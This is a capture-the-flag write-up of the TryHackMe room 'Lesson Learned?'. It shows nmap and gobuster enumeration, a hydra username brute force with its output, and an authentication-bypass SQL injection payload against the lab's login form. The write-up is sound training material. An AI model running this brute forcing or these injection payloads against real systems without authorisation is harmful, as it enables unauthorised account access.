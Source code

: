 ```yaml
---
title: Lesson Learned? - TryHackMe Write-Up
date: 2024-11-04
authors:
  - name: PrintN
    link: https://github.com/PrintN
    image: https://github.com/PrintN.png
---
```

![Image 0](./0.webp)
Today we're going to take a look at [Lesson Learned?](./https://tryhackme.com/r/room/lessonlearned) room made by TryHackMe and Tib3rius. The difficulty is easy.

The challenge description states there is no rabbit holes or hidden files but we have to treat the box as a real target. Going to the website `https://[MACHINE_IP]/` we're presented with a login form.
![Screenshot 1](./1.webp)

### Enumeration
Doing a quick `nmap` scan we find the ports `22` and `80` open.

```bash
┌──(printn㉿kali)-[~]
└─$ nmap -sV 10.10.132.122  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 11:14 EST
Nmap scan report for 10.10.132.122
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

And a `gobuster` scan also doesn't return anything of interest.
```bash
┌──(printn㉿kali)-[~]
└─$ gobuster dir -u http://10.10.132.122/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.122/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 315] [--> http://10.10.132.122/manual/]
```

### OSINT
We have been told that we have to treat it like an real target so let's try doing some Open Source Intelligence (OSINT). When checking out the room creator Tib3rius out on his X / Twitter account we find some interesting posts regarding best practices with SQL injections and the dangers of using `OR 1=1`.
![Screenshot 2](./2.webp)

_[https://x.com/0xTib3rius/status/1624819441044185088](https://x.com/0xTib3rius/status/1624819441044185088)_

Doing a quick search of what the risks are on using `OR 1=1` in a SQL injection we get this article [https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)

### Bruteforcing
We'll use `hydra` for the bruteforcing the username with the `xato-net-10-million-usernames` wordlist from SecLists. 

If you don't have it, download it with the following command.
```bash 
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/xato-net-10-million-usernames.txt
```

```bash
┌──(printn㉿kali)-[~]
└─$ hydra -L /usr/share/wordlists/xato-net-10-million-usernames.txt -p pass 10.10.132.122 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-04 12:04:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.132.122:80/:username=^USER^&password=^PASS^:Invalid username and password.
[80][http-post-form] host: 10.10.132.122   login: martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: patrick   password: pass
[80][http-post-form] host: 10.10.132.122   login: stuart   password: pass
[80][http-post-form] host: 10.10.132.122   login: marcus   password: pass
[80][http-post-form] host: 10.10.132.122   login: kelly   password: pass
[80][http-post-form] host: 10.10.132.122   login: arnold   password: pass
[80][http-post-form] host: 10.10.132.122   login: Martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: karen   password: pass
[80][http-post-form] host: 10.10.132.122   login: Patrick   password: pass
```

### SQL Injection
Great so now we got some usernames we can use, now it's time for the SQL injection. By using our knowledge from the post and the article we can craft the injection while ensuring we don't erase the database.

We craft the injection `martin' AND '1'='1'-- -` which we could also shorten to `martin'-- -`.
![Screenshot 4](./4.webp)

And we receive the flag 🥳 and an explanation about the risks of using `OR 1=1` in SQL injections.
![Screenshot 5](./5.webp)